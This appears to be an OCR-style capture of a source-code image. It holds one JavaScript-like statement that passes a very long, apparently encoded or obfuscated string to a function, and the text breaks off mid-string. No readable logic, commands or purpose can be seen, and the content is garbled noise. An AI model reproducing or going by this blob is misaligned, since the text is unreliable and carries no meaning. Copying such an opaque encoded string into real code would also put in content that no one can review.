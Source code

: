 m=l(e,"UE2i#XWHsaJ5pP%mim%p%2PspmP25J5_JWaJ;2:aE2f#pJ%X%Xpap%p#JmJEJsEEz5mpm2%sPpi%#H#aiHJPp2ass%s#HsPH%HmEs%spJW5a5#JHX2saaissHaWPXHWA#5i52mi+2W2apWmmBEms%HPap%sai5#%2WEpE2}WHiHmH5EpXiXJ#im#iW2mEPEicHmpJ%%P%sa.pHpmH2JaX%J#aWsEsmHEH#PPPPps5%5#JsAmEiE%uiPHma%%PpPXpaiPiH2sE%E#:sWXHXHHWpPaPmp#5J5CJ#fX?mYmmmP%mXmyP5p%pH5HJ55#ama5aQmPm5%sP%P#ps#HiH#Ei22i22GamaHEHiXpX2#sipa#JmJmaXaHa:Hs2J#pXmXJ#P5P5WJsa%a#%pma%JPEWiH-#%##iJ2%5#aJJWsXsPsiW5HcX5#pEs}imam#%J%#PXp5p25a5iJaa%#E#W2p22EsepHJHJsE#HWPXEiX2#iaEPmPEJ%J0#mHHxW#X5Hs#Wipi22WJ2J#aJspsX#22P2iXW#a##iH%mE5EiE2:%mXmsJJ%epPP2siH5HiWHW2XJX-##iiWXXXXmVaD#mJm2aaaWs#HJH&W#5pPHPH5P5m5sJSEsrPvinX%%%#PJp%2PiP#H%#2%2XEJk5?#mEPm%x#m#PiJiL2WEJHasaaiXaH#WpWHXpp25sJ%J#aJacsWaV52WaWWX##J#Vi#spJiaJs5aXs2s,%H%HP2ps5%52E225Ea6mSimsJJpa%#sP#H#Ei22sE%E2HJsXHmWP%i%ip%p#5JJ%LiEpE2msmmBsmJP%%E%R#iis2%2#EJEE:%mpm2%sPpiP#H#HiHEpEmEWs%s#HJHdWWXpi25HH%iX#W2<EWLp^qsWWpHsXHXmXXiP#22PE%%JPXp5pa5a5WJPJEaasWHmHiW%WEXWXi#a%5%JPWppp25WEi2%2JE%EE%pmimp%%XX#P#ZiW2paXsPHRyXAimb%WPpPM25im##%W^HEH2E5mHasJW#XJXL##pJ5f5pa5JiaasEsWHEW22%Ea3mRmmpmsmv%iPPp%pE5aJ%JsaPaHsH2m2JEJET.WmJH%HWWiX%XJpEpgJpJ2assp%Xo#I7%H%Js%Jm5mpa2525EW3pA2mWWoWXWsXX#sXE%%!mEm2as5sJHWWpW2XWJ5p#5Js%5HJpJ2aissmX<2%7PWpppQE%ia2a2#ppEW_dmiJ#5%PaPa5mpE5JJ2X#aPsXsss2WHWJPiP#5%5#JJa%!2EJ{ifEmimX%i55PVp#pH2aiJE#jJ_3m#HJW&Wp#5Xi#aiEiW2EE2P%pa5m5PJPJ2a%ais#s2HEWPXmXWX:#ii5PmP5pJp65WE2EEqJmi%XPPPsWHW,X2#si%aHa2sEss_PVHms%%%##%iE2s2sEHJaJ#a#sJsq%a%zP#pE5pJ5i5iX2WEpE2<WWiH%WmHCPHPap25sJ%J2maE5Eym%mH%5p4PmP2p!5H5J2iE5w%^#mJ%%WEimPiPX5%5#JJa%mP_PEH5#P%mX%JP5P#pEJm5-EmEpIJe>mW%J#XXaX%}L2EiEi5aPJsssH%H#Wsm9%E%rpH5H5PJmJ5as#2a#WiH2WiWW#5#%#X2a2JiDsma2HJHcWWXJpPpXJXJE5pJpaJHHsPHWXJWWWXPEPP5p52Jsap1iEmZm W%P%5a#5XpXpmWp5%sPapsPabHXHsWmXiX#XJ5sJ%J#aJatsWHpH2WsXmW%#J#GiW2Js5Jiaas%WaHEWXXH#EXs#piai#2i2XmQrHms%%%X%#JPPWpppz2a2iE#rJcwm#WmXmWE#mpXpX5yJWapa,mEm5m5%5PiP5PWp2pipE2X2PE8bWmpm0XHHiWiXJ#EimEi2i2PmmY%mmo2%H%J%EpXpWi#2J2/EWApS2ms%%2#P5PJpW5p52JWeiE%EJI%(EPE%E%iPs#Xa/i_2WEpEwsps%s#HWWm2pEH{P#W25iH%#EiT5,pmWmaPp%XPapEp#J5JPJ2a%sXs#s:ivX5XPXEIa2i2a2%E5EsE2PWmpmWJX5sp55JpCJXJpJaHXs%H5HHWp2iXp#XipimmE2KEizXm%Ki5X%aPiPEppsiaWJaasa%sisJsHXiWpXaXX#J5H5aJ2ass%s2PmmJmW%JPPJaps5EJsJsaHspRi2B%%%#PJp%iW#ViHiHPJEWFm(smHJsmXPXPPsSpW5%5EJpaisHs%HXWJEpWaXEX2ip%JIP2XE5E!%5mi%HaJpWaa#Eip2p22EshpWasiWPWaXPPipp5%5#JJa%mPuPEHHas5W#XJX)##pIp25sJJJiWL#5#EsEWPWaX%XXV#2%2H%H%Xmp%2%#5a%appJm5Hsp5X2XE%E./WmpWWWE#%iap5ps5WJpJ2aW%P&mR#TK%H%W%2#a#Ji#2J2ZE#HnsHHsWmX-WsXE#m#E#iiEamaPsJshHWWJpEPXPWpp5sJPJXJiEiEim%m#%JP%X%XHimisiPi#2sEXEhmmHiHEX%X##Ji%aiJpJ2s}s5s2H5Hs%H%5P2ps5%EHEu%2m%pPPa%E5s5X5PpXs55EaWs2E%E#bJ+!mW%p%2psdPpXpi5SJWapa4EsIa1imJ%%P5PWpXiaiW2#EJESw#W4s2HsWJiH#5X(HHJpJ2asJSm0HJH7WWJ2X2#si%iJ#W2LEWOpdWms%m%#P5PnpJPa52Jsa%assJsEHWH,HmXs#%##WJif2HEpE2Xmm%m#%J%3PWppp25s%mJ#a5aAsWHpH2WsX%XJ#J#?iW2p22Eay%2##Pm6%WPpP2ps=X5#5p5iaWsPs2J5W%W#XJW2X<ipi#2sW#E#3J)xmpi5%2P5p%pm5J5EJWaPa2ss5aH#WJWhXH#p#2is2%WJEJE2<Wm%m2%aP%%WPPpc5sJp%2ass%s#spsPWWXmX2H2i%i#2J#7i2:pFXmsmE%#mHP}Ps5P52Jpa%5PsJslHWspHWXsX2##i%iQ#PEp2#EWm%ma%J1JPWppp2PsCEJ#amacs5HpaJWsHBW##J#WiWXW22Es?%2#Bim}%pPpPspsps5#JJ5KaWais2HsW%W#XJW2XXipiJ2sXEE#KJ{c:smp%2%Ep%P%5J5*JWJ%JassssH#5EW<XW#p#W#22%2pEJiE{WmPm2%s%mP#PWpc55JpJ2ass%PeHJHPWWWHX2#si%i##12w22Kpl#msmF%#PJPXpWpi525ia%J;sJs&H%WpWaXsXJ###Xi(2Js5E2E/m%*m%J%EPWpp2o5s5WJ#J2a<sWHpHs5HX%Xp#J#XiW2P22E%9%:#iXmC%WPpP#ps5%5#JJP5aWsps2HpW%W#XJX7sEipi22s2WE# J<_mW2H%2Psp%pH5J5NJWappPssH%H#HEW,XW#p#2Hi2%2#EJEE0Wmpm2%sX#P#PipG5%JpJ2ass%apHJHJWWXpX2#si%i#iH2yEmfpn#msme%#PJPmpW5p525Ea%a#sJsTsEWpW2XsXb##iJin2W2pE2 sm%m#%J%YPWP?ps5sJ%J#XJa)sHHps#HpX%X##J#piW2p22isiJG#mJm^%WPpEapsP!5pJJJyaWP#s2HsW%HWWHXI#Wipi%2sE%E#2JB%mW%p%2Psp%mp5Jp252apa2ssa%H#WJWAXWWE#2is2%2XEJE-.W/%B5%sP%P#m%pA5WJp5#Jps%s#HJJEWWXpX2W%#5i#2J2nX2.p+ims2J%#P%%PpW5p52%#a%aXsJs{%EWpW2Xs#m##iJi}isi0E2usm%is%J%_PWP%E%5sJmJ#pmausWHpa2s2X%XX#J#EiWHX222JEp0#mPmA2dPpP2ps5%pHJJJEaWsms2HsW%W#XmX.#Wipi22s2eE#=Jd2mW%p%2Pap%pW5JPnJJapaissH%H#JcW}XWJi#2i52%2#EJEH+W2piJ%s%EP#pppu%WJpP25Xs%sHHJ52WWWaX2HssWi#2P2gE5QpE2msE%mEPJPipW%s52Pma%p#P2s}HaWpaPXsX%##WJ#i2WEmE22#m%2W%JEx2HpppX5s%HJ#p(aTsW%XH2WaX%XH#J#2iW2%HHEsE37#82m6%WPpP#EP5%5HJJJWaWsps2assmW#X%X&#Wipia2sE%EmGJ?WmW%p%2Ppp%m#5P5 Jpapa#ssaiH#aJJsXWX2#2Ha2%2sEJ#oE%mpms%sE5P#PXp?%WmPJ2a%s%aJHJsiWWXpaO#s#2i#iG2 EHjpE#0p%%%sPJmPpW5p52PsPia#s%sZ5#WpWJXsWK#JiJi#2W#aE2wsm%m#mJ%bP5pppX5sJ%J#aJa2sWsEH2WaX%XW#J#WXE2p2HEsWpj#m5md%WPpPW%X5%5#JJm%aWsPs2Hps5W#XJX=JXipii2sihXHTJDXmW>#%2Psp%P#E55>JJapJ#sssiH#Wp5XXWXv#2##2%2#EJEWXXmpmH%s%sP#p5p95HJpJ2Pis%s#HJHLWWXpX2#%sPi#i*2GEP7pDims%m%#PJt5pW5p52Jsa%a#sJa2%5WpWaXsH5##iJiC#W2XE29mm%m5%Jm2PWP%P,5s5WJ#pHa_sWHpa2HmX%Xp#J#siWWJ22E%E#(#oEmrX2PpPipspW5#J%5PaWsps2%#W%WXXJX#Wiipi22ssmE#Z5C>mWmP%2Pmp%ps5J5_JWap}PsssXH#W5WOXH#p#2ia2%25EJEXyWmpm2%s%#P#PEp_5HJpJiasa2amHJH>WW^JX2#ai%X#ap2:EPGpqimsuH%#PJ%HpWpX52Jsa%aHsJ5(sJWpW5XsXV##HsiLXW2mE2EEm%mJ%Jm5PWmpPP5s5HJ#5ma-aiHpH2sEX%X5#J#aiW2%22is25C#z2m}%PPp%aps5%pXJJJJaWsps2HpW%a#J2X?X_ipi#2simE#iJ:XmWmW%2%pp%Pp5J%TmHapapssHmH#HJWRXsJE#2#i2%2#EJE8bWLpm5%s%sP#SPpfpEJpJ25Es%spHJHJWWXPX2WsX5i#i22ZEP4p2Xms%%%WPJPJpW5p52JJa%p#apsrsoWpW#XsHN###FHm2W2HE2^Jm%mX%J%#PWppmP5sJ%J#apa1sWHpH2JiX%X##J##iW2p22Es#aQ#mJmt%5PpP2ps5%%mJJJQaWa2s2HsW%H#WiXZXqipHX2s2aE#SJF#mWm#%2%2p%pX5JPR5#apaJssHmH#siW:XWXE#2#22%2#EJEi=W2pmX%s%sP#pppYP#JpP2%Rs%s%HJHWWWHHX2HsX;i#i#2ri5}phmms%%#PPJPspWpW52JJa%JW%ps>HmWpH/Xs#%###pia2W2WE22.m%m#%Jm2mvpppP5s%PJ#aJaTJWaaH2H#X%Xp#JWiiW2piXEsEpb#mJm)%sPpt2Pi5%p2JJJ2aWsms2H%5PW#WaXz#mipii2s2QE#xJi5mW%p%2%Ep%p#5J5I%Eapa2ssH%H#WJW:WWXX#2#W2%WHEJEm Wmpm5%s%JP#Pspw5HJpp25is%a8HJHsWWHmX2#sX2i#is2/EW=pu#msE%eEPJP%pW5%52PHa%aJPasTsXWpWXXs#m##ipi92WXHE2?sm%mP%J%bPWppmP5sJ%J#aJa{sWHps2HiX%W2#JsiiWi522EsE%